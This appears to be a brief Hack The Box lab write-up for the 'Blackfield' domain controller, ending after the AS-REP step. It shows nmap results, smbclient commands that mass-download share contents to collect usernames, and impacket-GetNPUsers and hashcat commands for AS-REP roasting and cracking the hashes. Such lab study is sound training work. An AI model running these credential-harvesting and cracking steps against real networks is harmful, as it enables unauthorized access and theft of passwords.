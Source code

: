 # Blackfield

## NMAP

``` text
10.129.229.17:53
10.129.229.17:88
10.129.229.17:139
10.129.229.17:135
10.129.229.17:389
10.129.229.17:389
10.129.229.17:445
10.129.229.17:445
10.129.229.17:593
10.129.229.17:3268
10.129.229.17:5985

PORT STATE SERVICE REASON VERSION

53/tcp open domain syn-ack ttl 127 Simple DNS Plus
88/tcp open kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-10-09 16:52:08Z)
135/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC
139/tcp filtered netbios-ssn no-response
389/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds? syn-ack ttl 127
593/tcp open ncacn_http syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp filtered ldapssl no-response
3268/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
3269/tcp filtered globalcatLDAPssl no-response
5985/tcp open http syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp filtered adws no-response
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB

![smb-shares](/HTB/Machines/images/Blackfield-smb-shares.png)

we can get usernames via profles$ share and use it with ASREP Roasting

``` bash
mask ""
recurse ON
prompt OFF
cd 'path\to\remote\dir'
lcd '~/path/to/download/to/'
mget *
```

```bash
impacket-GetNPUsers BLACKFIELD.local/ -usersfile user.txt -format hashcat -outputfile hashes.asreproast

hashcat -m 18200 --force -a 0 hashes.asreproast /user/share/worldists/rockyou.txt
```

![GetNPUsers](/HTB/Machines/images/Blackfield-GetNPUsers.png)
